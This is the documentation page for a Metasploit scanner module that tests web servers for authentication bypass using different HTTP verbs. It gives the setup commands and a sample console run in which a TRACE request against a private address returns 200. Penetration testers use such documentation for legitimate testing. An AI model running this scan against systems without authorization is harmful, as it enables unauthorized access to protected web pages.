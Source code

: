 ## Description

This module scans a server or range of servers and attempts to bypass authentication by using different HTTP verbs.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/verb_auth_bypass	```
2. Do: ```set PATH /xampp/```
3. Do: ```set RHOSTS [IP]```
4. Do: ```run```

We configure this module by setting the path to the page requiring authentication, set our RHOSTS value and let the scanner run.

## Seenarios

**Running the scanner**

```
msf > use auxiliary/scanner/http/verb_auth_bypass
msf auxiliary(verb_auth_bypass) > show options

Module options (auxiliary/scanner/http/verb_auth_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target address range or CIDR identifier
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The path to test
   THREADS    1                yes       The number of concurrent threads
   VHOST                       no        HTTP server virtual host

msf auxiliary(verb_auth_bypass) > set PATH /xampp/
PATH => /xampp/
msf auxiliary(verb_auth_bypass) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(verb_auth_bypass) > run

[*] 192.168.1.201 requires authentication: Basic realm="xampp user" [401]
[*] Testing verb HEAD resp code: [401]
[*] Testing verb TRACE resp code: [200]
[*] Possible authentication bypass with verb TRACE code 200
[*] Testing verb TRACK resp code: [401]
[*] Testing verb WMAP resp code: [401]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(verb_auth_bypass) >
```

By reading the returned server status codes, the module indicates there is a potential auth bypass by using the TRACE verb on our target.